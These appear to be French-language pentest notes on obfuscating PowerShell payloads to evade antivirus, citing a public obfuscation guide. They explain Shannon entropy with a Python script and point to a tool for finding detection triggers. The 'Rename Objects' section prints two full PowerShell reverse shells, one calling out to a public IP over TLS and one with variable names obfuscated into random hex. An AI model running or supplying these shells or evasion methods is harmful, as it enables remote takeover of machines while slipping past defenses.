 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropie__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python :

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__



```powershell
PS > "$TCPClient = New-Object Net.Sockets.UDPClient('20.235.121.153', 8181);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

```powershell
PS > $84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('192.168.0.71',4443); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()
```

